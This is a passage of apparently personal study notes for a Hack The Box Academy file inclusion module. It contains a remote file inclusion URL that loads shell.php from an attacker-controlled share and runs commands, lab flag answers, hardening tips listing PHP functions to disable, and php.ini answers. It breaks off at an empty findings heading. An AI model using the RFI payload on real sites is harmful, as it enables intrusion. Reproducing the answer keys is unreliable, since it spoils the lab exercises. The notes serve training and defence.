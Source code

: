 And then execute shell.php as follows:

`http://example.com/index.php?language=\\{IP here}\shere\shell.php&cmd=id`


HTB Academy Questions:
======================

1. Attack the target, gain command execution by exploiting the RFI vulnerability, and submit the contents of the flag.txt file located in the /exercise directory.

A. 99a8fc05f033f2fc0cf9a6f9826f83f4

Hardening Tips
==============

=> create a deny list and allow list for checking maliciouse thing 

=> creating mailing service for when malicious thing happend they mail to the defender

=> nerver display error messages to the website

=> block that function that cause problems like system(),passthru(),shell_exec(),popen(),proc_open(), curl_exec(), curl_multi_exec(), parse_ini_file(), show_source() etc.

=> block web application to load files from remote location.

=> jail the web application to prevent it to access non-web related files.that is done by using docker or in set language to access file from base location in php hat can
be done by adding open_basedir = /var/www in the php.ini file

=> use web application firewall(WAF) to harden the web application for attacks.

### HTB Academy Question

1. What is the full path to the php.ini file for Apache?

A. /etc/php/7.4/apache2/php.ini

2. Edit the php.ini file to block system(), then try to execute PHP Code that uses system. Read the /var/log/apache2/error.log file and fill in the blank: system() has been 
disabled for ________ reasons.

A. security


Section 4/Skills Assessment-File Inclusion/Directory Traversal Part
----------------------------------------------------

Q: Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system.
Submit the contents of the flag as your answer.

A: a9a892dbc9faf9a014f58e007721835e

# Solution

## Findings:
